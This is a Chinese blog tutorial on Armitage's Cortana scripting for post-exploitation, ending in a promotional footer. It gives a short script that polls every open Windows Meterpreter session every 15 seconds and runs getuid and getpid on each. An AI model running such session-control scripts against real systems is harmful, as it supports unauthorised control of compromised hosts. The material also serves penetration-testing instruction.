 ```yaml
---
layout: post
category: curleyg-code-hack
title: Armitage使用Cortana实现后渗透攻击
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Armitage使用Cortana实现后渗透攻击
lock: need
---
```


# Armitage使用Cortana实现后渗透攻击

首先，我们创建一个后渗透脚本heartbeat.cna

内容如下:

```
on heartbeat_15s{
    local('$sid');
    foreach $sid (session_ids()){
        if(-iswinmeterpreter $sid && -isready $sid){
            m_cmd($sid, "getuid");
            m_cmd($sid, "getpid");
            on meterpreter_getuid{
                println(" $3 ");
            }
            on meterpreter_getpid{
                println(" $3 ");
            }
        }
    }
}
```

这个脚本中，我们使用了一个名为heartbeat_15s的函数。这个函数每隔15秒会重复执行一次。

函数local表示$sid是当前函数的一个局部变量。吓一跳foreach语句是一个队所有开放会话的循环遍历。以if开始的语句将会对每一个会话进行检查，检查内容为该会话类型是否为Windows Meterpreter控制，以及该会话是否可以进行交互并接受命令。

m_cmd函数使用$sid(会话ID)等参数和命令将命令发送给Meterpreter会话。接着，我们定义了一个meterpreter_形式的函数，意味着即将发送到Meterpreter会话的命令。这个函数将会打印sent命令的输出。

使用Cortana载入这个脚本，并对结果进行分析，如下图所示：

![img](https://img-blog.csdnimg.cn/20190128211935380.png)

成功载入并执行这段脚本之后，每隔15秒就会显示目标系统的用户ID和当前使用进程的ID。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
